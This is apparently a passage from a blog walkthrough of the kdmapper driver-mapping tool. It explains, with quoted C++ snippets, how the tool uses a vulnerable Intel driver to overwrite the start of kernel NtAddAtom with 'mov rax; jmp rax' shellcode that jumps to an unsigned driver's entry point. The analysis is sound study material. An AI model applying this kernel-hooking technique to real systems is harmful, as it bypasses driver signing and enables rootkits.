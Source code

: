 
#### Manually calls your DriverEntry

Finally it calls your custom DriverEntry.

```cpp
NTSTATUS status = 0;
if (!intel_driver::CallKernelFunction(iqvw64e_device_handle, &status, address_of_entry_point, (PassAllocationAddressAsFirstParam ? realBase : param1), param2)) {
    Log(L"[-] Failed to call driver entry" << std::endl);
    kernel_image_base = realBase;
    break;
}
```
{: file='kdmapper/kdmapper.cpp'}

The method it employs to call custom driver entry in [intel_driver::CallKernelFunction](https://github.com/TheCruZ/kdmapper/blob/30f3282a2c0e867ab24180fccfc15cc9b819ebea/kdmapper/include/intel_driver.hpp#L154) is very common technique in kernel exploit development but still interesting, so let's closer look at it.


Look at the source code below where it constructs shellcode called `kernel_injected_jmp`.

```cpp
uint8_t kernel_injected_jmp[] = { 0x48, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xff, 0xe0 };
// Copying original shell code into original_kernel_function to restore NtAddAtom later
uint8_t original_kernel_function[sizeof(kernel_injected_jmp)];
// Replacing 0x00s with DriverEntry's address
*(uint64_t*)&kernel_injected_jmp[2] = kernel_function_address;
```
{: file='kdmapper/include/intel_driver.hpp'}

You might be wondering what is `{ 0x48, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xff, 0xe0 }`, here's one by one description.

- `0x48` and `0xb8` represents x64 constant load into `rax` register
- The bunch of `0x00`s are filled with your DriverEntry's address in the last line.
- `0xff` and `0xe0` indicates `jmp rax`

So the shellcode's basically assigning your DriverEntry address into `rax`, then jumping to `rax`.
You can imagine it like this:

```nasm
mov rax, 0xFFFFF80179A3B000 ; suppose this is DriverEntry's address
jmp rax
```

After shellcode construction, it gets `NtAddAtom` from kernel and replace first 12 bytes with the aforementioned shellcode.
By replacing it, when a user calls `NtAddAtom` this kernel mode `NtAddAtom` will eventually be called and the hook will be kicked and it transfers further execution to your DriverEntry.

```cpp
// Getting kernel NtAddAtom's address
static uint64_t kernel_NtAddAtom = GetKernelModuleExport(device_handle, intel_driver::ntoskrnlAddr, "NtAddAtom");

// ...

// Overwrite the pointer with kernel_function_address
if (!WriteToReadOnlyMemory(device_handle, kernel_NtAddAtom, &kernel_injected_jmp, sizeof(kernel_injected_jmp)))
    return false;
```
{: file='kdmapper/include/intel_driver.hpp'}
